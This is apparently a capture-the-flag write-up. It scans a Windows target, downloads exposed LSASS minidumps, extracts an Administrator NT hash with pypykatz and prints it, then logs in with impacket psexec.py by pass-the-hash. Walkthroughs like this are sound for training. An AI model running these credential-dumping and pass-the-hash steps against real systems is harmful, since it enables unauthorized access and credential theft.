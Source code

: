 ## First machine

We started by scanning the IP using `nmap`:
nmap -A [IP]

we got port 80 so we can try to access it using the browser,we found this result:

![](https://i.ibb.co/Vm5gJJt/Screen-Shot-2022-12-29-at-9-29-03-AM.png)

in `dumps/process` i found these three files:

![](https://i.ibb.co/wcpHG80/Screen-Shot-2022-12-29-at-9-32-25-AM.png)

so i download the three of them, then i tried to search for this type of file.

`A Mini Dump crash file is a file that contains a snapshot of the memory of a computer at a specific point in time. It is typically used for debugging purposes, as it can provide information about what caused a crash or error to occur.`

`LSASS (Local Security Authority Subsystem Service) is a process in the Windows operating system that is responsible for enforcing the security policy on the system. It is responsible for managing the security of the system, including authentication of users and devices, and enforcing access controls on resources such as files and network connections.`

then i searched for how can i use them, i found that using the pypykatz tool, i can parse the secrets hidden in the LSASS process.
after running:
pypykatz lsa minidump lsasss.DMP

we got this result:

```
== LogonSession ==
authentication_id 161412 (27684)
session_id 2
username Administrator
domainname DUMPED
logon_server DUMPED
logon_time 2020-10-29T15:19:57.115459+00:00
sid S-1-5-21-3442779028-2509691204-4132320481-500
luid 161412
        == MSV ==
                Username: Administrator
                Domain: DUMPED
                LM: NA
                NT: 78f9261c7b0f08bd9a3b3b13340e4c2a
                SHA1: b1553efa581712a8efead9829535b1a723f7cc40
                DPAPI: NA
```

as you see we got the NT hash, we can use it to log in as Administrator.
using the famous impacket `psexec.py` module we managed to log in:
psexec.py Administrator@[IP] -hashes <NTLM hash>
we got our Administrator in.
in Desktop of the Administrator we got our flag.
